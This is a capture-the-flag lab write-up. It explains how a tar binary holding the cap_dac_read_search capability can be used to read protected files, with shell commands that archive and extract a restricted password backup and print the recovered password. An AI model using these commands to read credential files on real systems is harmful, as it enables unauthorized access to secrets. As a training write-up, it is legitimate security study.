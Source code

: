 ```yaml
---
layout: default
title: Tar
parent: Extended Capabilities
nav_order: 1
---
```


# Tar

---

## Check for Extended Capabilities

```bash
cyber@breakout:~$ getcap -r / 2>/dev/null
/home/cyber/tar cap_dac_read_search=ep
/usr/bin/ping cap_net_raw=ep

```

_Tar_ has cap_dac_read_search capabilities.
This extended capability allows us to read access to anything.
This could be used to read restricted files such as /etc/shadow in order to display password hashes.

When running _linpeas_ we see there is a _/var/backups/.old_pass.bak_ that we can try to read with the _Tar_ binary.

![backup](../../../../assets/images/ctfs/proving_grounds/empire-breakout/backup.png)

```bash
cyber@breakout:~$ ./tar -cvf old_pass /var/backups/.old_pass.bak
./tar: Removing leading `/' from member names
/var/backups/.old_pass.bak
cyber@breakout:~$ ./tar -xvf old_pass
var/backups/.old_pass.bak
cyber@breakout:~$ cat var/backups/.old_pass.bak
Ts&4&YurgtRX(=~h
```
